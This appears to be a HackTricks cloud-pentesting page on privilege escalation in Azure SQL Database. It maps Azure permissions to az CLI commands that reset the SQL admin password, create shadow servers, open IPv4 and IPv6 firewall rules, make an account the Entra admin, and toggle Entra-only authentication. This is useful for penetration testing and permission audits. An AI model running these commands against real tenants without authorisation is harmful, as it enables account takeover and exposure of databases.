 # Az - SQL Database Privesc

{{#include ../../../banners/hacktricks-training.md}}

## SQL Database Privesc

For more information about SQL Database check:

{{#ref}}
../az-services/az-sql.md
{{#endref}}

### `Microsoft.Sql/servers/read` && `Microsoft.Sql/servers/write`

With these permissions, a user can perform privilege escalation by updating or creating Azure SQL servers and modifying critical configurations, including administrative credentials. This permission allows the user to update server properties, including the SQL server admin password, enabling unauthorized access or control over the server. They can also create new servers, potentially introducing shadow infrastructure for malicious purposes. This becomes particularly critical in environments where "Microsoft Entra Authentication Only" is disabled, as they can exploit SQL-based authentication to gain unrestricted access.

```bash
# Change the server password
az sql server update \
  --name <server_name> \
  --resource-group <resource_group_name> \
  --admin-password <new_password>

# Create a new server
az sql server create \
  --name <new_server_name> \
  --resource-group <resource_group_name> \
  --location <location> \
  --admin-user <admin_username> \
  --admin-password <admin_password>
```

Additionally it is necesary to have the public access enabled if you want to access from a non private endpoint, to enable it:

```bash
az sql server update \
  --name <server-name> \
  --resource-group <resource-group> \
  --enable-public-network true
```

### `Microsoft.Sql/servers/firewallRules/write`

An attacker can manipulate firewall rules on Azure SQL servers to allow unauthorized access. This can be exploited to open up the server to specific IP addresses or entire IP ranges, including public IPs, enabling access for malicious actors. This post-exploitation activity can be used to bypass existing network security controls, establish persistence, or facilitate lateral movement within the environment by exposing sensitive resources.

```bash
# Create Firewall Rule
az sql server firewall-rule create \
    --name <new-firewall-rule-name> \
    --server <server-name> \
    --resource-group <resource-group> \
    --start-ip-address <start-ip-address> \
    --end-ip-address <end-ip-address>

# Update Firewall Rule
az sql server firewall-rule update \
    --name <firewall-rule-name> \
    --server <server-name> \
    --resource-group <resource-group> \
    --start-ip-address <new-start-ip-address> \
    --end-ip-address <new-end-ip-address>
```

Additionally, `Microsoft.Sql/servers/outboundFirewallRules/delete` permission lets you delete a Firewall Rule.
NOTE: It is necesary to have the public access enabled

### `Microsoft.Sql/servers/ipv6FirewallRules/write`

With this permission, you can create, modify, or delete IPv6 firewall rules on an Azure SQL Server. This could enable an attacker or authorized user to bypass existing network security configurations and gain unauthorized access to the server. By adding a rule that allows traffic from any IPv6 address, the attacker could open the server to external access."

```bash
az sql server firewall-rule create \
  --server <server_name> \
  --resource-group <resource_group_name> \
  --name <rule_name> \
  --start-ip-address <start_ipv6_address> \
  --end-ip-address <end_ipv6_address>
```

Additionally, `Microsoft.Sql/servers/ipv6FirewallRules/delete` permission lets you delete a Firewall Rule.
NOTE: It is necesary to have the public access enabled

### `Microsoft.Sql/servers/administrators/write` && `Microsoft.Sql/servers/administrators/read`

With this permissions you can privesc in an Azure SQL Server environment accessing to SQL databases and retrieven critical information. Using the the command below, an attacker or authorized user can set themselves or another account as the Azure AD administrator. If "Microsoft Entra Authentication Only" is enabled you are albe to access the server and its instances. Here's the command to set the Azure AD administrator for an SQL server:

```bash
az sql server ad-admin create \
  --server <server_name> \
  --resource-group <resource_group_name> \
  --display-name <admin_display_name> \
  --object-id <azure_subscribtion_id>
```

### `Microsoft.Sql/servers/azureADOnlyAuthentications/write` && `Microsoft.Sql/servers/azureADOnlyAuthentications/read`

With these permissions, you can configure and enforce "Microsoft Entra Authentication Only" on an Azure SQL Server, which could facilitate privilege escalation in certain scenarios. An attacker or an authorized user with these permissions can enable or disable Azure AD-only authentication.

```bash
#Enable
az sql server azure-ad-only-auth enable \
  --server <server_name> \
  --resource-group <resource_group_name>

#Disable
az sql server azure-ad-only-auth disable \
  --server <server_name> \
  --resource-group <resource_group_name>
```

{{#include ../../../banners/hacktricks-training.md}}



